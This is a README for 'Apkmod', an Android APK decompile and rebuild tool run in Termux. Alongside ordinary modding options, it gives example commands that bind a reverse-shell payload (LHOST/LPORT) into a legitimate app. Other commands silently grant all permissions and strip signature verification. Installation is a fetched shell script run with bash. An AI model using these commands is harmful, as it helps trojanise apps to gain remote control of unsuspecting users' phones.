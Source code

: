 # Apkmod v4.1
### Author : Fahim Ahamed @TheBwof

## _Steps For Installation_
1. First goto home directory `cd $HOME`
2. Get the setup script `wget https://raw.githubusercontent.com/thebwof/Apkmod/main/setup.sh`
3. Execute the script `bash setup.sh`
4. Now you can execute command `apkmod`

## Usage :
1. For decompiling `apkmod -d -i /path/to/inapp.apk -o /path/to/outdirectory`. It will decompile __inapp.apk__ into __outdirectory__ folder.
2. For recompiling `apkmod -r -i /path/to/indirectory -o /path/to/outapp.apk`. It will recompile __indirectory__ ( where decompiled files are exists ) into __outapp.apk__.
3. For signing `apkmod -s -i /path/to/unsignedapp.apk -o /path/to/signedapp.apk`. It will sign __unsignedapp.apk__ and saves output ( signed app ) to __signedapp.apk__.
4. For binding `apkmod -b -i /path/to/originalApp.apk -o /path/to/binded.apk LHOST=127.0.0.1 LPORT=4444`. It will bind payload with __originalApp.apk__ and saves final binded app to __binded.apk__.
5. Use `-V` to enable verbose output
6. If only editing Java (smali) then this is the recommended action for faster decompile & rebuild `--no-res`
7. If you are only editing the resources. This is the recommended action for faster disassemble & assemble `--no-smali`
8. use `--frame-path` to specify framework directory like `--frame-path=/path/to/dir` 
9. Use `--enable-perm` to enable all android permissions in binded or non binded payloads without user interaction. For example :- `apkmod --enable-perm -i /path/to/binded.apk -o mybinded.apk`
10. `apkmod --to-java -i /path/to/in.apk -o outfolder` will decompile dex to java. Input can be __[.apk,.dex,.zip]__
11. Now you can use a optional option `-a` to use __aapt__ for __binding__ and __recompiling__. Why aapt ? Because some apps can't recompile with __aapt2__ but __aapt__ can do it. But I can't drop __aapt2__ support because some apps can't recompile with __aapt__ so first recompile or bind without __aapt__ (`-a`) then if you failed then try with __aapt__. For example `apkmod -a -b -i /path/to/originalApp.apk -o /path/to/binded.apk LHOST=127.0.0.1 LPORT=4444` will use `aapt` otherwise `aapt2`.
12. To change App name use `--appname` with `-i`. For example `apkmod --appname="New App Name" -i /path/to/in.apk -o /path/to/out.apk`
13. To remove/kill signature verification of app , `apkmod --signature-bypass --killer=k2 -i /path/to/in.apk -o /path/to/out.apk`. There are two version available of signature killer , one is k1 and second one is k2, you will have to specify version like `--killer=k1` or `--killer=k2`.
### Size Comparision (Termux)
Size  | Apkmod  | Third party tools
--- | --- | ---
after installation | Around 100 MB | Around 700-900 MB

#### Why Apkmod is extremely small ?
Because it has Alpine instead of Ubuntu, kali, parrot or other glibc based distros.

#### You can join me on telegram also 
https://t.me/thebwof

